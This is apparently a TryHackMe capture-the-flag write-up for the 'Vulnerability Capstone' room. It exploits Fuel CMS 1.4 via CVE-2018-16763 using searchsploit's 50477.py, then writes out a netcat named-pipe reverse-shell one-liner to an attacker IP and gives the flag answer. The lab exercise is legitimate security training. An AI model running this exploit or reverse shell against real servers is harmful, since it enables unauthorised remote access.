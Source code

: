 # [Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone)

![VulnerabilityCapstone](./images/VulnerabilityCapstone.jpg)

[Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone) is listed as an easy room. Apply the knowledge gained throughout the Vulnerability Module in this challenge room. An overview of what we’ll be using is listed here:  

* Browser
* Searchsploit
* Script Exploit

## Task 1 - Introduction

![task1-logo](./images/task1-logo.png)

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module. 

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. 

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.

### Answer the questions below

* Let's get hacking

## Task 2 - Exploit the Machine (Flag Submission)

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is **recommended** that you use the TryHackMe AttackBox to complete this room.

Allow **five minutes** to pass before attempting to attack the vulnerable machine **MACHINE_IP**

### Answer the questions below

* Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.

	![task1-IP](./images/task1-IP.png)

* What is the name of the application running on the vulnerable machine?

	`Fuel CMS`

	![task2-cms](./images/task2-cms.png)

* What is the version number of this application?
	
	`1.4`

* What is the number of the CVE that allows an attacker to remotely execute code on this application?

	Format: CVE-XXXX-XXXXX

	`CVE-2018-16763`

	```
	searchsploit -j 'Fuel CMS' | grep CVE
	```

	![task2-cve](./images/task2-cve.png)

* Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

	Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

	Download script from `searchsploit`

	```
	searchsploit -m 50477.py
	```

	![task2-download](./images/task2-download.png)

* What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

	`THM{ACKME_BLOG_HACKED}`

	* Create listener on attacker machine
	
		```
		nc -nvlp 8080
		```

		![task2-nc](./images/task2-nc.png)

	* Run script exploit `50477.py`
	
		```
		python3 50477.py -u http://10.10.21.183/
		```

		![task2-run](./images/task2-run.png)

	* Type script command to get reverse shell
	
		```
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.95.148 8080 >/tmp/f
		```

	* Get the shell and flag
	
		![task2-flag](./images/task2-flag.png)